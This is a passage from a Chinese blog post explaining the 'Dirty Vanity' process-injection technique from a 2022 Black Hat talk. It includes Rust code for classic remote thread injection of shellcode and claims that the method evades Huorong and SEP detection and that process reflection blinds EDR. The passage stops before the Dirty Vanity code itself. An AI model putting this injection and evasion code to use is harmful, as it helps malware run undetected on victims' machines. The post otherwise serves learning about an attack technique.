


# Dirty Vanity 来自N年前的注入手法

## 前言

这篇文章是我在学习DI在2022年BlackHat会议上所讲的内容，并且将它写成了rust程序。其内容十分简单但是shellcode中有一个坑需要注意。（本文是酒后所写 如有问题等我酒醒了再修

> 别问我为什么情人节在写博客 因为陪对象看电影看精神了

## 理论分析

让我们来回顾一下常规的注入手法，VirtuallAllocEX-WriteProcessMemory-CreateRemoteThreat。好的，我们成功的在目标虚拟内存划分空间写入shellcode并且创建远程线程。如下图所示



很好，你的行为已经完全被EDR所窥视了。目标进程分配内存，写入shellcode，创建远程线程。demo代码如下

```rust
let handle = OpenProcess(
            PROCESS_ALL_ACCESS,
            FALSE,
            pid);
let memory_addr = VirtualAllocEx(
            handle,
            null(),
            shellcode_length,
            MEM_COMMIT | MEM_RESERVE,
            PAGE_READWRITE,
        );
let res = WriteProcessMemory(
            handle,
            memory_addr,
            shellcode.as_ptr().cast(),
            shellcode_length,
            null_mut(),
        );
let res = VirtualProtectEx(
            handle,
            memory_addr,
            shellcode_length,
            PAGE_EXECUTE,
            &mut old);
let func = transmute(memory_addr);
let thread = CreateRemoteThread(handle, null(), 0, func, null(), 0, null_mut());

```

标准的远程线程注入（此方法可以绕过火绒的注入检测。。。以及SEP的 我好想吐槽啊

而Dirty Vanity则是采用了RtlCloneUserProcess，将最后一步CreateRemoteThreat变为RtlCreateProcessReflection  EDR的追踪将会丢失最后一步。好的已经完成幽灵写入了。fork后的进程EDR是无法正常追溯的。如下图所示
